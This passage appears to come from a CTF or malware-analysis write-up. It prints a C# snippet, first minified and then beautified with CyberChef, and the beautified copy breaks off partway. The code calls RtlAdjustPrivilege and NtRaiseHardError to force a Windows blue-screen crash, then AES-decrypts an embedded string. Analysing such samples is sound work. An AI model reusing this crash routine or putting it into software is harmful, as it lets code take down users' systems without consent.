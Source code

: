 ```csharp
using System;using System.Text;using System.Security.Cryptography;using System.Runtime.InteropServices;using System.IO;public class X{[DllImport("ntdll.dll")]public static extern uint RtlAdjustPrivilege(int p,bool e,bool c,out bool o);[DllImport("ntdll.dll")]public static extern uint NtRaiseHardError(uint e,uint n,uint u,IntPtr p,uint v,out uint r);public static unsafe string Shot(){bool o;uint r;RtlAdjustPrivilege(19,true,false,out o);NtRaiseHardError(0xc0000022,0,0,IntPtr.Zero,6,out r);byte[]c=Convert.FromBase64String("RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw");byte[]k=Convert.FromBase64String("/a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=");byte[]i=Convert.FromBase64String("9sXGmK4q9LdYFdOp4TSsQw==");using(Aes a=Aes.Create()){a.Key=k;a.IV=i;ICryptoTransform d=a.CreateDecryptor(a.Key,a.IV);using(var m=new MemoryStream(c))using(var y=new CryptoStream(m,d,CryptoStreamMode.Read))using(var s=new StreamReader(y)){return s.ReadToEnd();}}}}
```

Let's beautify the above code using hte `Generic Code Beautify` recipe in **CyberChef** as shown in the following image.

![alt text](assets/image-156.png)

Here is the beautified code,

```csharp
using System;
using System.Text;
using System.Security.Cryptography;
using System.Runtime.InteropServices;
using System.IO;
public class X {
    [DllImport("ntdll.dll")]public static extern uint RtlAdjustPrivilege(int p, bool e, bool c, out bool o);
    [DllImport("ntdll.dll")]public static extern uint NtRaiseHardError(uint e, uint n, uint u, IntPtr p, uint v, out uint r);
    public static unsafe string Shot() {
        bool o;
        uint r;
        RtlAdjustPrivilege(19, true, false, out o);
        NtRaiseHardError(0xc0000022, 0, 0, IntPtr.Zero, 6, out r);
        byte[]c = Convert.FromBase64String("RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw");
        byte[]k = Convert.FromBase64String("/a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=");
```